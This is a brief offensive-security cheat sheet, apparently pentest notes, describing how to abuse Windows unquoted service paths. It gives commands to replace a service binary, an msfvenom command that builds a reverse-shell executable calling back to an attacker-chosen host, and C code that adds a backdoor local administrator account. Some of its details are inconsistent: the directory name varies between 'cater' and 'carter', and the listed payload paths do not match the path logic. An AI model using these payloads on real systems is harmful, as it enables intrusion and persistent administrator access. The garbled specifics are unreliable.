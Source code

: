 # Unquoted Service Path Attack

### Identify a writable directory where the target file is located

- ***If the target file is located in `C:\Program Files\cater\cater_term.exe` we should see if the following a writable:***

1. `C:\`, if this is writable we would name the payload `Program.exe`
2. `C:\Program\`, if this is writable we would name the payload `Files.exe`
3. `C:\Program Files\`, if this is writable we would name the payload `carter.exe`
4. `C:\Program Files\carter\`, if this is writable we would name the payload `carter_term.exe` and delete/rename the original `carter_term.exe`

- Steps to rename/delete the file so we can replace it:

1. Rename: `Rename-Item -Path "C:\<Full Path\<File Name>" -NewName "C:\<Full Path\<New Name>"`
2. Delete" `Remove-Item -Path "C:\<Full Path\<File Name>"` and for recusive, add a `-recurse`

- Creating the payload

1. Create a reverse shell executable with msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe`
2. Create a new administrator account with some compiled C code and use `gcc <program.c> -o <executable name.exe>` to compile it
   ```
    #include <stdlib.h>
    int main ()
    {
      int i;
      
      i = system ("net user evil Ev!lpass /add");
      i = system ("net localgroup administrators evil /add");
      
      return 0;
    }
  ```
